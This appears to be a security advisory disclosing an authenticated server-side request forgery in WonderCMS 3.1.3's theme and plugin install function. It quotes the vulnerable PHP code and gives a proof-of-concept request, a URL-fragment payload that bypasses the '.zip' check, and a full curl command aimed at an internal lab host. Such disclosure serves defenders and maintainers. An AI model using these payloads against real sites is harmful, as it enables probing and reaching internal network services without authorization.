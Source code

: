 # SSRF vulnerability in `installUpdateThemePluginAction` Function of `index.php` File when type=plugins (WonderCMS 3.1.3 version)

## 0x01 Affected version

vendor: https://github.com/WonderCMS/

version: 3.1.3

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `installUpdateThemePluginAction` function of WonderCMS 3.1.3 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `installThemePlugin` parameter. The vulnerability is triggered when the value of the parameter `type` is `plugins`. We should note that the vulnerability requires authentication to trigger.



The vulnerable code is located in the `installUpdateThemePluginAction()` function in the `index.php` file. Because the function `installUpdateThemePluginAction()` does not perform sufficient checksumming on the `installThemePlugin` parameter, the taint is introduced from the `$url` variable into the tainted function `curl_exec` at the file `index.php`, and after the `curl_exec` function is executed it sends a request to the URL specified by the `installThemePlugin` parameter, eventually leading to an SSRF vulnerability.



Function call stack information related to the SSRF vulnerability.

```
Wcms->installUpdateThemePluginAction (/var/www/html/wondercms/index.php:1071)
Wcms->init (/var/www/html/wondercms/index.php:130)
{main} (/var/www/html/wondercms/index.php:15)
```



It's worth noting that installUpdateThemePluginAction is called from two locations in the program. One is when you download the update plugin and the other is when you download the update theme. These two function points correspond to two locations in the Web page. The corresponding vulnerabilities are triggered by the value of the HTTP parameter type for themes and plugins, respectively.



```PHP
/**
	 * Install and update theme
	 * @throws Exception
	 */
	public function installUpdateThemePluginAction(): void
	{
		if (!isset($_REQUEST['installThemePlugin'], $_REQUEST['type']) || !$this->verifyFormActions(true)) {
			return;
		}

		$url = $_REQUEST['installThemePlugin'];
		$type = $_REQUEST['type'];
		$path = sprintf('%s/%s/', $this->rootDir, $type);
		$folders = explode('/', str_replace(['/archive/master.zip','/archive/main.zip'], '', $url));
		$folderName = array_pop($folders);

		if (in_array($type, self::VALID_DIRS, true)) {
			$zipFile = $this->filesPath . '/ZIPFromURL.zip';
			$zipResource = fopen($zipFile, 'w');
			$ch = curl_init();
			curl_setopt($ch, CURLOPT_URL, $url);
			curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
			curl_setopt($ch, CURLOPT_FILE, $zipResource);
			curl_exec($ch);
			$curlError = curl_error($ch);
			curl_close($ch);
			$zip = new \ZipArchive;
			if ($curlError || $zip->open($zipFile) !== true || (stripos($url, '.zip') === false)) {
				$this->recursiveDelete($this->rootDir . '/data/files/ZIPFromURL.zip');
				$this->alert('danger',
					'Error opening ZIP file.' . ($curlError ? ' Error description: ' . $curlError : ''));
				$this->redirect();
			}
			$zip->extractTo($path);
			$zip->close();
			$this->recursiveDelete($this->rootDir . '/data/files/ZIPFromURL.zip');
			$this->recursiveDelete($path . $folderName);
			$themePluginFolder = $path . $folderName . '-master';
			if (!is_dir($themePluginFolder)) {
				$themePluginFolder = $path . $folderName . '-main';
			}
			if (!rename($themePluginFolder, $path . $folderName)) {
				throw new Exception('Theme or plugin not installed. Possible cause: themes or plugins folder is not writable.');
			}
			$this->alert('success', 'Successfully installed/updated ' . $folderName . '.');
			$this->redirect();
		}
	}
```



Because the `installThemePlugin` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows:



```
GET /wondercms/?installThemePlugin=http://172.16.119.1/hhhh%23https://github.com/robiso/summernote-editor/archive/master.zip&type=plugins&token=a3926e0b25ea9c109c32e1f013a571b51190214bdf2dd848d04f314214af2812
```



This also shows that the security filtering functions currently used are incomplete. An attacker can easily bypass it by using the following payload.

```
http://172.16.119.1/hhhh%23https://github.com/robiso/summernote-editor/archive/master.zip
```



Examples of triggered vulnerabilities

![image-20230721182049610](./assets/image-20230721182049610.png)



You can also use the following curl command to verify the vulnerability. (Note that you need to update the token information for authentication.)

```
curl -i -s -k -X $'GET' \
    -H $'Host: 172.16.119.147' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://172.16.119.147/wondercms/?installThemePlugin=http://172.16.119.1/' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: zh-CN,zh;q=0.9' -H $'x-custom-ip-authorization: 127.0.0.1' -H $'Connection: close' \
    -b $'54e7d701daf706e028b5135c2ab6049b=svkasl680me62m9o8eh5ika81j; PHPSESSID=a5kttu2d8dhc2b4osfkj7g1b8k' \
    $'http://172.16.119.147/wondercms/?installThemePlugin=http://172.16.119.1/flag456%23https://github.com/robiso/simple-blog/archive/master.zip&type=plugins&token=be0dee20ca747ed7b1dd1d5b09b7be45d56a3267ef23ed993a2921cc4a64a565'
```



## 0x03 Acknowledgement

z3